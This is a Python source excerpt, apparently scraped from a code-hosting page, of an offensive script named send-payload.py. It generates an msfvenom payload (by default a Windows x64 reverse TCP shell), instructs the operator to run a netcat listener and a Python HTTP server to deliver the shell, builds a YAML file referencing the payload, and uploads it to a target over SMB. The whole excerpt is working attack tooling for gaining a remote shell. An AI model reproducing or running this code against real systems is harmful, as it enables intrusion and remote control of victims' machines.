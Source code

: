 ```python
    parser.add_argument("-m", "--msf_payload", help="Msfvenom payload to use. Default is windows/x64/shell_reverse_tcp", dest="msf_payload")
    parser.add_argument("-a", "--lip", help="Local IP address to listen on. Specify either this or --lint", dest="lip")
    parser.add_argument("-i", "--lint", help="Local interface to listen on. Specify either this or --lip", dest="lint")
    parser.add_argument("-P", "--lport", help="Local port to listen on. 9001 by default", dest="lport")
    parser.add_argument("-d", "--dir", help="Directory to save payload and stand up server in", dest="dir")

    #parse arguments
    args = parser.parse_args()

    #default values
    path = ""
    port = "9001"

    #get local IP, taking --lip as priority over --lint if both provided
    if args.lip is not None:
        ip = args.lip
        print("IP Address: " + ip)
    elif args.lint is not None:
        ip = get_ip(args.lint)
    else:
        print("You must provide one of --lip or --lint. Run python3 send-payload.py -h for usage")
        sys.exit(1)

    #get port
    arg_port = args.lport
    if arg_port is not None:
        port = arg_port

    #mkdir if doesn't exist
    arg_path = args.dir
    if arg_path is not None:
        path = arg_path + "/"
        dirpath = Path(arg_path)

        if not dirpath.is_dir():
            print("Directory not found - creating directory")
            dirpath.mkdir()

    # remind user to start a listener
    # in future, start python server in a thread
    print("Make sure to start required listeners before continuing.\nRun a netcat listener to catch your shell: nc -lnvp {port}\nRun a Python Server to serve your shell in {dir}: sudo python3 -m http.server 80".format(port=port, dir=path))
    input("Press enter to continue once you've started your listeners...\n")
    
    payload_name, size, sum = get_payload(args, ip, port, path)

    yml_path = gen_yaml(ip, payload_name, size, sum, arg_path)

    smb_upload(yml_path)

if __name__ == '__main__':
    main()
```
